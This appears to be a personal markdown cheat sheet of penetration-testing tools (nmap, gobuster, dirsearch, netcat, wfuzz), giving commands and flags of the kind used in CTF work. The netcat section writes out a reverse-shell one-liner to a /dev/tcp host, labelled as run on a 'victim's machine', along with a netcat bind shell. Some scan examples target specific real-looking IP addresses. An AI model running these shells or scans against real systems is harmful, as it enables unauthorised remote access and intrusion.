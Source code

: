 ## Some Usefull Tools of today

#### Nmap (scanning & scripts)

`sudo nmap -sS 14.139.38.108 ` – scans top 1000 ports
`sudo nmap -sS -p 80,21,8080 14.139.38.108` -- for specific ports
` sudo nmap -sS -O xx.xxx.xx.xxx` -O for scanning OS of host
`sudo nmap -sS -D 14.139.38.110 14.139.38.108` --D for deco

**Using scripts**
`nmap –script vuln 14.139.38.108` – vuln for running all scripts

**Refer**
[Link 1](https://www.stationx.net/nmap-cheat-sheet/), [Link 2](https://d00mfist.gitbooks.io/ctf/content/port_scanning.html)
[cheatsheet](https://cdn.comparitech.com/wp-content/uploads/2019/06/Nmap-Cheat-Sheet.pdf)

**Alternate options**

- [autorecon](https://github.com/Tib3rius/AutoRecon)
- [rustrecon](https://github.com/RustScan/RustScan)

#### Gobuster

eg.
`gobuster dir -u http://xx.xxx.xx.xxx/ -w /path/to/wordlist.txt -x .html,.php,.txt,.png`

- **dir** for telling to do directory scan
- **-u** for URL scan
- **-w** for wordlist to use for scan
- **-x** for file extensions

```
Usage:
  gobuster dns [flags]

Flags:
  -d, --domain string      The target domain
  -h, --help               help for dns
  -r, --resolver string    Use custom DNS server (format server.com or server.com:port)
  -c, --show-cname         Show CNAME records (cannot be used with '-i' option)
  -i, --show-ips           Show IP addresses
      --timeout duration   DNS resolver timeout (default 1s)
      --wildcard           Force continued operation when wildcard found

Global Flags:
      --delay duration    Time each thread waits between requests (e.g. 1500ms)
      --no-color          Disable color output
      --no-error          Don't display errors
  -z, --no-progress       Don't display progress
  -o, --output string     Output file to write results to (defaults to stdout)
  -p, --pattern string    File containing replacement patterns
  -q, --quiet             Don't print the banner and other noise
  -t, --threads int       Number of concurrent threads (default 10)
  -v, --verbose           Verbose output (errors)
  -w, --wordlist string   Path to the wordlist
```

```
Usage:
gobuster dir [flags]

Flags:
-f, --add-slash                       Append / to each request
-c, --cookies string                  Cookies to use for the requests
-d, --discover-backup                 Also search for backup files by appending multiple backup extensions
    --exclude-length ints             exclude the following content length (completely ignores the status). Supply multiple times to exclude multiple sizes.
-e, --expanded                        Expanded mode, print full URLs
-x, --extensions string               File extension(s) to search for
-r, --follow-redirect                 Follow redirects
-H, --headers stringArray             Specify HTTP headers, -H 'Header1: val1' -H 'Header2: val2'
-h, --help                            help for dir
    --hide-length                     Hide the length of the body in the output
-m, --method string                   Use the following HTTP method (default "GET")
-n, --no-status                       Don't print status codes
-k, --no-tls-validation               Skip TLS certificate verification
-P, --password string                 Password for Basic Auth
    --proxy string                    Proxy to use for requests [http(s)://host:port]
    --random-agent                    Use a random User-Agent string
    --retry                           Should retry on request timeout
    --retry-attempts int              Times to retry on request timeout (default 3)
-s, --status-codes string             Positive status codes (will be overwritten with status-codes-blacklist if set)
-b, --status-codes-blacklist string   Negative status codes (will override status-codes if set) (default "404")
    --timeout duration                HTTP Timeout (default 10s)
-u, --url string                      The target URL
-a, --useragent string                Set the User-Agent string (default "gobuster/3.2.0")
-U, --username string                 Username for Basic Auth

Global Flags:
    --delay duration    Time each thread waits between requests (e.g. 1500ms)
    --no-color          Disable color output
    --no-error          Don't display errors
-z, --no-progress       Don't display progress
-o, --output string     Output file to write results to (defaults to stdout)
-p, --pattern string    File containing replacement patterns
-q, --quiet             Don't print the banner and other noise
-t, --threads int       Number of concurrent threads (default 10)
-v, --verbose           Verbose output (errors)
-w, --wordlist string   Path to the wordlist
```

- Refer [link](https://hackertarget.com/gobuster-tutorial/)

**Alternate options**

- [**Dirsearch**](https://github.com/maurosoria/dirsearch)
  [reference](https://www.hackingarticles.in/comprehensive-guide-on-dirsearch/)
  some commands for reference
  `dirsearch -u http://target--simple-report=report`
  `dirsearch -u http://target/ --json-report=report`
  `dirsearch -e php,html,js -u https://target -w /path/to/wordlist` -r for recursive scan
  `./dirsearch.py -u http://testphp.vulnweb.com/ -s 10` -s for delay

#### Netcat

**netcat can be used to**

- scan to see if a port is open on a remote system
- pull the banner from a remote system
- connect to a network service manually
- remote administration

**Few key switches**

- **-e** execute
- **-l** listen mode
- **-n** numeric mode (no DNS. Its faster)
- **-p** designates the port
- **-u** UDP mode
- **-v** verbose output

##### Using netcat

` `
**for chat**

`nc -vn 192.168.1.103 22` Opening TCP connection between two machines for `chat`

Netcat is capable of creating a simple TCP or UDP connection between two computers and then open a communication channel between them.

`nc -l -p 1337` open a listener on the remote system
`nc 192.168.1.105 1377` connect to that listener from a remote machine

**Transferring Files with Netcat**

One of the simple wonders of netcat is its ability to transfer files between computers. By creating this simple connection, we can then use that connection to transfer files between two computers. This can be extremely useful as a network administrator and even more useful as a hacker. Netcat can be used to upload and download files from and to the target system.

` nc -l -p 6996` open a listener on the remote system

Next, let’s send the file to the remote system.

`nc 192.168.1.103 6996 < filename` < to direct the file to netcat

Finally, go back to our listening system and we should find that the file has been transferred and appears on the screen!

**Remote Administration with netcat**

Probably the most malicious use of netcat _and the most effective for the hacker_ is the ability to use netcat for remote administration. We can use netcat’s ability to execute commands to give the **remote connection a shell on the listening system**. Ways to do it ?? [keep exploring....]

`sudo nc -lvnp 8809` for listening (in general)
and when the connection command is executed on victim's machine we'll get it's shell access.

`sh -i 5<> /dev/tcp/10.10.10.10/9001 0<&5 1>&5 2>&5` _the_ connection command

`nc -l -p6996 -e /bin/sh` _explore **this** one_ ;)

**Alternate options**

- [Rustcat](https://github.com/maurosoria/dirsearch)
- [Pwncat](https://www.hackingarticles.in/comprehensive-guide-on-dirsearch/)

I ain't gonna give explainations for these ;() , jzz find em 🤷‍♂️

#### Simplehttpserver

`sudo python -m http.server 80`

#### Wfuzz

some commands for reference
`wfuzz -w path/to/wordlist.txt --hc 404,403 http://website.com/FUZZ`

- -w for specifying wordlist path
- --hc for hiding responses having error codes 404, 403
- **FUZZ** word used for telling where to use wordlist

for passing cookies in the request
`wfuzz -z file,path/to/wordlist.txt -b cookie=value1 -b cookie2=value2 http://testphp.vulnweb.com/FUZZ`

for passing headers
`wfuzz -z file,path/to/wordlist.txt -H "myheader: headervalue" -H "User-Agent: palemoon" http://example.com/FUZZ`

Additional filters can also be used for filtering displayed requests.
`--filter "c=200 and l>197"` will filter to show only status code 200 , length > 197

[explore more](https://github.com/xmendez/wfuzz)

###### Things to explore

- what is hosts file ??
- 3-way handshake
- cryptcat

###### Explore later

- Rlwrap
